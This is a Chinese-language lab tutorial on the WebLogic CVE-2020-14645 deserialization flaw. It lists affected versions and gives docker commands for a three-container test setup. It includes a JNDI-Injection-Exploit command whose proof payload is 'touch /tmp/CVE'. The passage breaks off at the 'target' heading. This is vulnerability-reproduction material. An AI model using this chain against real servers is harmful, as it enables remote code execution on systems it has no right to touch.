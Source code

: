 ## WebLogic-UniversalExtractor反序列化漏洞(CVE-2020-14645)

简介

WebLogic 是美国 Oracle 公司的 Java 应用服务器，确切说是一个中间件，被用于WEB应用、数据库应用等的集成开发部署。

WebLogic 的 T3 协议易被利用，从而采用 JNDI 注入、反序列化方法达到远程代码执行的目标。

存在安全缺陷的版本：WebLogic12.2.1.4.x，【JDK版本：6u211以下；7u201以下；8u191以下】。本文使用JDK1.8.0_181。



1.3 漏洞挖掘能力条件



认为应掌握JNDI注入方法，并清晰WebLogic的coherence源码的逻辑功能。



1.4 利用方法

### **1.4.1 环境**

在 WIN10 的 WSL2 下用 docker 镜像 weblogic122140jdk8u181new:latest、ubuntu 创建三个容器，称为weblogic122140jdk8u181new、ubuntu-JNDI、ubuntu-gongji，作用分别为WebLogic 服务器、JNDI服务器、攻击机。

对于 weblogic122140jdk8u181new 容器【ip:172.17.0.2】的生成过程，需要进入【WeblogicEnvironment】文件夹，参照【https://github.com/QAX-A-Team/WeblogicEnvironment】方法即可生成，命令是：

- 

```
docker build --build-arg JDK_PKG=jdk-8u181-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.2.1.4.0_wls_lite_generic.jar  -t weblogic122140jdk8u181new .
```

- 

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic122140jdk8u181new weblogic122140jdk8u181new
```



对于由 ubuntu 镜像生成的 ubuntu-JNDI 容器【ip:172.17.0.3】，将 jdk-8u181-linux-x64.tar.gz、JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar拷贝至容器内，参照【https://www.cnblogs.com/hellojesson/p/11684299.html】安装好jdk，执行命令：

- 

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C touch /tmp/CVE -A 172.17.0.3
```



对于由ubuntu镜像生成的ubuntu-gongji容器【ip:172.17.0.4】，将jdk-8u181-linux-x64.tar.gz、CVE-2020-14645.jar拷贝至容器内，参照【https://www.cnblogs.com/hellojesson/p/11684299.html】安装好jdk。 



### **1.4.2 目标**
